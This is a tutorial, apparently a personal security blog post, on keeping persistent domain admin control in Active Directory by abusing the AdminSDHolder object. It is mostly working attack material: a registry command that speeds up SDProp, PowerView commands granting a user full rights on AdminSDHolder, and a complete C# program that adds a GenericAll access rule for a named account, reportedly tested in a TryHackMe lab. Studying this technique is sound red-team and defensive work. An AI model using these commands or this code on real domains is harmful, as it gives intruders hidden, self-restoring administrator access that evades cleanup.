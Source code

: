 # Adding ourselves to AdminSDHolder

In this post, we will be discussing a domain persistence technique.

## AdminSDHolder Object
AdminSDHolder container acts as ACL template for many protected users and accounts in Active Directory. For every 60 minutes SDProp process applies these ACE's of AdminSDHolder object. This means if we add an user with All Permissions to this object then we can add ourselves to the 'Domain Admins' group. Also we need Domain Administrator privileges to add an user.

Distinguised Name for AdminSDHolder object is `CN=AdminSDHolder,CN=System,DC=tech69,DC=local`

To view in the "Active Directory Users and Computers" -> Click on View -> Show Advanced

## Changing the SDProp interval via registry

We can set it to any number of seconds we want

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 100
```

## Adding User via PowerView

Import poweview and use command Add-objectacl

```powershell
import-module powerview.ps1


Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName test1 -Verbose -Rights All
```

To check if we are part of Domain Admins or not, we can use net command or

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'test1'}
```

## Adding User via C#

I have explained this code in my youtube channel and here is the video link
[Domain Persistence via AdminSDHolder](https://youtu.be/4TMpwKBTFq0)

Also i have tested this on my local AD and in tryhackme's throwback network. You can configure this program to receive command line arguments to add specific user. 

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.DirectoryServices;
using System.DirectoryServices.ActiveDirectory;
using System.DirectoryServices.AccountManagement;
using System.Security.Principal;
using System.Security.AccessControl;

namespace ADACL101
{
    class Program
    {
        static void Main(string[] args)
        {

            DirectoryEntry de = new DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=THROWBACK,DC=local");
            DirectorySearcher ds = new DirectorySearcher();
            ds.SearchRoot = de;
            foreach(SearchResult sr in ds.FindAll())
            {
                DirectoryEntry holder = sr.GetDirectoryEntry();
                ActiveDirectorySecurity ads = holder.ObjectSecurity;
                AuthorizationRuleCollection arc = ads.GetAccessRules(true, true, typeof(NTAccount));
                foreach(AuthorizationRule a in arc)
                {
                    Console.WriteLine(a.IdentityReference.ToString());
                }
                PrincipalContext pc = new PrincipalContext(ContextType.Domain);
                UserPrincipal user = UserPrincipal.FindByIdentity(pc, "BlaireJ");
                ActiveDirectoryAccessRule ar = new ActiveDirectoryAccessRule(user.Sid, ActiveDirectoryRights.GenericAll, AccessControlType.Allow);
                ads.AddAccessRule(ar);
                holder.CommitChanges();
            }
        }
    }
}

```

![[Pasted image 20220423182151.png]]

## Manually triggering SDProp

We can manually trigger these replication changes via ldp.exe 

This microsoft doc explains very clearly -> [Protected Accounts and Groups](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory)